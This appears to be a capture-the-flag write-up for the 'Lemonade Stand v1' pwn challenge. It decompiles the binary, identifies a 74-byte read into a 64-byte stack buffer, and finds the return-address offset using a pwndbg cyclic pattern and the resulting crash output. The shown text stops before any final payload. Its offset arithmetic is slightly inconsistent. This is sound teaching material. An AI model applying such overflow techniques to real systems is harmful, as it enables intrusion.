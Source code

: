 # Lemonade Stand v1 

This challenge is an basic ret2win attack.

## Basic file checks

We see that the RELRO is full enabled so can't write anything in the GOT table to perform a "GOT overwrite" attack. \
The NX is also enabled, so that means we can't stored input or data cannot be executed as code to perform a shellcode attack.
![Alt Text](img/checksec.png)

## View the Source Code and find the vulnerability

We used Ghidra to disassemble the binary.\
The first thing that we want to do is to go to Functions section and select the main() to see\
what the binary is actually doing and what funtions are called.
```c
void main(void)

{
  long lVar1;
  
  setup();
  puts("\x1b[1;33m");
  cls();
  do {
    while( true ) {
      while (lVar1 = menu(), lVar1 == 1) {
        buy_normal();
      }
      if (lVar1 == 2) break;
      error("We don\'t sell grapes!");
    }
    buy_large();
  } while( true );
}
```


We saw that the main is calling two funcrions buy_normal()" and buy_large().\
We navigate to them and we saw that both of them they calling a save_creds() func.
```c
void buy_large(void)

{
  if (COINS < 6) {
    error("You don\'t have enough coins!");
    save_creds();
  }
  else {
    printf("\n%s[+] Enjoy your large lemonade!\n%s",&DAT_0040101e,&DAT_00400c88);
    COINS = COINS - 5;
  }
  return;
}
```

This is where the interesting thing starts. \
We see that we have a buffer overflow in the local_48 variable cause the size of it is 64 bytes and read can take 74 bytes

```assembly 
        00400ac7 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
```

```c

void save_creds(void)

{
  long lVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  buffer = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  puts(
      "\n\nI can give you a free lemonade but I need your information for next time so you can pay m e back!\n"
      );
  printf("1. Yes\n2. No thanks\n\n>> ");
  lVar1 = read_num();
  if (lVar1 == 1) {
    printf("\nPlease tell me your name: ");
    read(0,&local_28,30);
    printf("\nPlease tell me your surname: ");
    read(0,&local_48,74);
    puts("Thanks a lot! Here is your lemonade!\n");
  }
  return;
}
```

## Exploit

First we want to find the offset.\
We will use pwndbg for this, to create a pattern known as De Bruijn Sequences to fill the padding for the buffer.
The pwntools calculate the entire 8 digits and found the offset to be 64, but we only care for the first 4 bytes so it will be 64 + 4*2 = 72 bytes

```shell
>> 1                                                                                         
                                                                                             
Please tell me your name: leo                                                                
                                                                                             
Please tell me your surname: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                         
Thanks a lot! Here is your lemonade!                                                         
                                                                                             
                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                         
0x000000000040616a in ?? ()                                                                  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*RAX  0x26
 RBX  0x0
*RCX  0x7ffff7910104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7bed8c0 ◂— 0x0
*RDI  0x1
*RSI  0x7ffff7bec7e3 (_IO_2_1_stdout_+131) ◂— 0xbed8c0000000000a /* '\n' */
*R8   0x25
*R9   0x7ffff796eb90 ◂— mov r10, qword ptr [rsi - 0x1e]
*R10  0x20657361656c500a ('\nPlease ')
*R11  0x246
*R12  0x400780 (_start) ◂— xor ebp, ebp
*R13  0x7fffffffde50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
*RIP  0x40616a
────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
Invalid address 0x40616a










──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ rsp 0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
01:0008│     0x7fffffffdd68 —▸ 0x400bee (main+72) ◂— jmp 0x400bfd
02:0010│     0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
03:0018│     0x7fffffffdd78 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
04:0020│     0x7fffffffdd80 ◂— 0x2000000000
05:0028│     0x7fffffffdd88 —▸ 0x7fffffffde58 —▸ 0x7fffffffe1c0 ◂— '/home/vein/htb/hacktheboo_practise/pwn_lemonade_stand_v1/lemonade_stand_v1'
06:0030│     0x7fffffffdd90 ◂— 0x100000000
07:0038│     0x7fffffffdd98 —▸ 0x400ba6 (main) ◂— push rbp
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0         0x40616a
   1   0x7fffffffdd70
   2         0x400bee main+72
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> aaaaaakaaaaaaalaaaaaaamaaa
Undefined command: "aaaaaakaaaaaaalaaaaaaamaaa".  Try "help".
pwndbg> cyclic -l iaaaaaaa
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
```



